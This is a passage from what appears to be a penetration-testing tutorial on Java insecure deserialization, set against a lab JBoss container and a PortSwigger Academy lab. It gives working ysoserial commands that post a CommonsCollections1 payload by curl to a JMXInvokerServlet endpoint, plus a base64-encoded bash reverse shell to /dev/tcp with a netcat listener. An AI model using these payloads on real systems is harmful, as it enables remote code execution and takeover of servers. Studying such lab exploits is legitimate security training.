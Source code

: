 - In this way, we can map the URL endpoint with the source code. Now let's get back to our insecure deserialization vulnerability.
- Inorder to exploit it we need to locate the gadget, craft the exploit payload and submit the payload to the target application.
- We will be using ysoserial to craft the payload. It is a tool that allows us to generated malicious serialized object.
- Download the ysoserial JAR file from [here.](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6)

```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

- Generate the payload and send it's output through CURL command to the endpoint.

```bash
java -jar ysoserial-all.jar CommonsCollections1 "touch /tmp/nirajkharel" | curl -X POST --data-binary @- http://YOUR-IP:8080/invoker/JMXInvokerServlet
```

- Here `@-` is used to pass the value of yoserial  and `--data-binary` is used since binary object is passed on the request.
- If successfull, there will be a file called `nirajkharel` under `/tmp` directory.

```bash
docker ps -a
docker exec -it <Container-ID> /bin/bash
cd /tmp
ls
hsperfdata_root  ks-script-V_wEqJ  nirajkharel  yum.log
```

- To get a reverse shell, we can craft the payload as below
```bash
export PAYLOAD=$(echo "bash -i >& /dev/tcp/YOUR-IP/1337 0>&1" | base64)
echo $PAYLOAD
# Listen to an attacker port
nc -lvnp 1337
java -jar ysoserial-all.jar CommonsCollections1 "/bin/bash -c {/bin/echo,$PAYLOAD}|{/usr/bin/base64,-d}|{/bin/bash,-i}" | curl -X POST --data-binary @- http://YOUR-IP:8080/invoker/JMXInvokerServlet
```
- You will have a reverse shell gained in your netcat listener.


**Lab: Exploiting Java deserialization with Apache Commons**
Let's take an another lab example for Java Insecure Deserialization. We can access this lab from [PortSwigger Academy.](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)
- As usual, navigate into above link and login using your portswigger account.
- Click on Access the lab, here the goal is to use a third-party tool to generate a malicious serialized object containing a remote code execution payload and delete the morale.txt file from Carlo's home directory.
- Navigate to My Account section and login with credentials **wiener:peter**.
- If we intercept the request after login, we can see the session cookie on the request.
![image](https://user-images.githubusercontent.com/47778874/228304320-e33bd933-17d8-4e5f-ad26-054a4cc08338.png)
